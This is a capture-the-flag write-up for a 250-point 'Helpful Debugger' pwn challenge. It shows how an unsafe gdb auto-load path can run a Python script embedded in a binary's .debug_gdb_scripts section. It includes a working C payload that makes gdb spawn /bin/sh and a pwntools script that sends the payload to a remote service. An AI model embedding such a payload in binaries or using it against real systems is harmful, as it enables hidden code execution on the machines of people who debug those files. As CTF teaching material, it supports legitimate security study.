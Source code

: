 # Helpful Debugger - PWN (250 points)

- The provided gdb build allows loading external gdb scripts (python scripts for example) because it's not using the default safe load path.
- When running `gdb -q -nx --batch -ex 'info functions' a.out` on a golang binary, we see this at the top :
```
To enable execution of this file add
        add-auto-load-safe-path /usr/share/go-1.10/src/runtime/runtime-gdb.py
line to your configuration file "/home/malik/.gdbinit".
To completely disable this security protection add
        set auto-load safe-path /
line to your configuration file "/home/malik/.gdbinit".
For more information about this security protection see the
"Auto-loading safe path" section in the GDB manual.  E.g., run from the shell:
        info "(gdb)Auto-loading safe path"
```
- What we thought about is how is the golang binary specifying to gdb loading that external gdb script? We wanted to confirm it by looking for the path `/usr/share/go-1.10/src/runtime/runtime-gdb.py` inside the binary, and it was indeed there
- After a lot of research, we ended up on the source code of src/runtime/runtime-gdb.py [here](https://golang.org/src/runtime/runtime-gdb.py)
- Just upon reading the first comments, we see this :
```go
"""GDB Pretty printers and convenience functions for Go's runtime structures.

This script is loaded by GDB when it finds a .debug_gdb_scripts
section in the compiled binary. The [68]l linkers emit this with a
path to this file based on the path to the runtime package.
"""
```
- "This script is loaded by GDB when it finds a .debug_gdb_scripts section in the compiled binary" BINGO!
- This lead us to [an interesting read](https://sourceware.org/gdb/current/onlinedocs/gdb/dotdebug_005fgdb_005fscripts-section.html)
- Final payload :
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
  asm(
  ".pushsection \".debug_gdb_scripts\", \"MS\",@progbits,1\n"
  ".byte 4 \n"
  ".ascii \"gdb.inlined-script\\n\"\n"
  ".ascii \"import os\\n\"\n"
  ".ascii \"os.system('/bin/sh')\\n\"\n"
  ".byte 0\n"
  ".popsection\n"
  );

  printf("hello world\n");
}
```
- `gcc -ggdb -o main main.c`
- Send the binary to remote and we get a shell, we used this small wrapper script :
```python
#!/usr/bin/env python3
from pwn import *

# context.log_level = "debug"

p = remote("127.0.0.1", 4444)

if args.BIN:
    bin_filename = args.BIN
else:
    bin_filename = "main"

log.info(f"bin_filename: {bin_filename}")

with open(bin_filename, "rb") as f:
    payload = f.read()

size = len(payload)
p.recvuntil("Send me the length of your file, then just cat the file in after it\n")
p.sendline(str(size))
log.info(p.recvline())
p.send(payload)

p.interactive()
```
- `./solve.py BIN=main` :D
- **flag :** `gigem{4u70-10aD_Un5aF3_p47h}`
